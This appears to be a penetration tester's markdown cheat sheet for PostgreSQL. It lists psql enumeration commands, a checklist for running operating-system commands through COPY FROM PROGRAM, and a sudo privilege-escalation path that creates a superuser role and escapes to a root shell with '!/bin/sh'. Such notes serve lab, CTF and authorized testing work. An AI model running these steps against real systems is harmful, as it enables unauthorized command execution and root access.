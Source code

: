 > A terminal-based front-end to PostgreSQL. It enables you to type in queries interactively, issue them to PostgreSQL, and see the query results. Alternatively, input can be from a file or from command line arguments.


#SQL #PSQL

Connecting to the PostgreSQL service 
```psql
psql -h 192.168.69.169 -p 2345 -U postgres
```

List version
```psql
SELECT version();
```

List all user accounts (or roles) in the current PostgreSQL database server
```psql
\du
```

Listing databases using psql
```psql
\l
```

Connect to database
```psql
\c somedatabase
```

Show all tables in the current schema
```psql
\dt
```

Query the _user_ table
```psql
SELECT * from user;
```

# Possible Exploits

## Command Execution

- [ ] Connect to postgres database
```psql
\c postgres
```

- [ ] Drop the table you want to use if it already exists
```psql
DROP TABLE IF EXISTS cmd_exec;
```

- [ ] Create the table you want to hold the command output
```psql
CREATE TABLE cmd_exec(cmd_output text);
```

- [ ] Run the system command via the COPY FROM PROGRAM function
```psql
COPY cmd_exec FROM PROGRAM 'id';
```

- [ ] View the results (Optional)
```psql
SELECT * FROM cmd_exec;
```

- [ ] Clean up
```psql
DROP TABLE IF EXISTS cmd_exec;
```

#Linux_Privilege_Escalation 
## sudo

> If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- [ ] Access PostgreSQL
```
psql
```

- [ ] Create "root" role
```
CREATE ROLE root SUPERUSER;
```
- Fixes `psql: error: FATAL:  role "root" does not exist` when using `sudo psql`

- [ ] Give the role permission to log in
```
ALTER ROLE "root" WITH LOGIN;
```
- Fixes `psql: error: FATAL:  role "root" is not permitted to log in` when using `sudo psql`

- [ ] Run psql as sudo by specifying database to login, or;
```
psql -U root -d postgres
```
- Fixes `psql: error: FATAL:  database "root" does not exist` when using `sudo psql`

- [ ] Run psql as sudo by creating a database named "root"
```
CREATE DATABASE root;
```
- Fixes `psql: error: FATAL:  database "root" does not exist` when using `sudo psql`

- [ ] Get shell while maintaining elevated privileges
```
\?
!/bin/sh
```